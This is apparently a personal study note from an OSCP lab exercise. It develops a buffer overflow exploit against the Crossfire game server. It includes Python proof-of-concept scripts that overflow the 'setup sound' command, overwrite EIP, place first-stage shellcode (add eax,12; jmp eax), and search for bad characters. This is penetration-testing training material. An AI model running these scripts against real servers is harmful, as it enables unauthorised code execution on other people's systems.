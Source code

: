 12.5.1.1

# 12.5.1.1
## 12.5.1.1.1. Determine the opcodes required to generate a first stage shellcode using msf-nasm_shell.

Since shellcode space is limited, we will create a first stage shellcode. We will align the EAX register so that it points to the buffer right after the "setup sound" string, then jump to that location. This is achieved by using the *ADD* assembly instruction followed by a *JMP* instruction that EAX points to. To get the correct opcodes, use msf-nasm_shell
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ msf-nasm_shell 
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
nasm > 
```

Update the poc
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 4_firstStageShellcode.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

padding = "\x41" * 4368
eip = "B" * 4
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Run the poc
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 4_firstStageShellcode.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

Observe Crossfire crashes
![9e01ace8fe77b9d89c2b93ed9a93fde3.png](:/328a61cabdcc484e8a33ac7a229e370a)

Follow the ESP in the dump, and we see it points to our first stage shellcode 83c00cffe0
![69765a68ee7f85abd5e359eb14e93af8.png](:/e15af6ddb13643f5a3fd327bb5e1c2c4)


## 12.5.1.1.2. Identify the bad characters that cannot be included in the payload and return address.

**Bad characters CANNOT be in the buffer, return address, or shellcode.**

We cannot check the same way as we did with SyncBreeze. We only have 7 bytes for our first stage shellcode, so we will test 7 characters at a time. That way, we can still see if the EIP points to BBBB. For the purposes of testing for bad characters, we will replace the first stage shellcode values with 7 hex values at a time to test. 

We will start with the string that has values from \x01 to \x07. Here is the script that we will run many times, each time using different characters in the buffer variable (after the eip).
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 5_badChars.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

# Adjust the padding to incorporate the bad chars
padding = "\x41" * 4368
eip = "B" * 4
buffer = "\x11(setup sound " + padding + eip + "\x01\x02\x03\x04\x05\x06\x07" + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Start with testing characters: `\x01\x02\x03\x04\x05\x06\x07`
When we right-click on the ESP (bfff:f720) in the register window and 'Follow in Dump', we see that all 7 characters are present at that address. None of these 7 are bad characters.
![9f69dbbe0a3d40c310a44cdf7757fe72.png](:/ffbceef456ff4ae6b0c38fc0030ca83a)

Continue testing the next 7 characters at a time. When we test string `\x1d\x1e\x1f\x20\x21\x22\x23` we come across a 'Broken pipe fault' error. There is a bad char somewhere in this string.
![e7979c9f8bdf6450ddcef979ab377603.png](:/58068449e9c24005a263a2fb48bc49db)

Test each value in `\x1d\x1e\x1f\x20\x21\x22\x23` individually. For example, let's test just `\x1d`. In the script, we change the buffer variable to:
```python
buffer = "\x11(setup sound " + padding + eip + "\x1d\x1d\x1d\x1d\x1d\x1d\x1d" + "\x90\x00#"
```
When we follow the ESP, we see that it is not a bad character.
![1d4a482f480fcb931bdbd93d90379e53.png](:/6965c26a5f9e4c2b9ffcc0e1f9206846)

However, when we test `\x20` we get the same 'Broken pipe fault' error. `x20` is a bad char.
![39060388f5143ed8ddfd78f83c47f5e6.png](:/d55d4be74fb64144ac531e6f3fe09dc9)

We continue testing with string `\x21\x22\x23\x24\x25\x26\x27` and see that there are no bad characters.
![ebaf7eb5bc27eaa644004e342a247ff7.png](:/5850ae1911314a9fb5fa8f7fca649602)

Continue testing 7 characters at a time until `\xff` has been tested. We find there are only 2 bad characters `\x00\x20`.

id: 66c6fe6c95bb457a9e2df5535b3e2f9f
parent_id: baa542bb31bb464baa69ac101e667ada
created_time: 2020-10-02T21:44:21.120Z
updated_time: 2020-10-02T21:44:22.503Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:44:21.120Z
user_updated_time: 2020-10-02T21:44:22.503Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1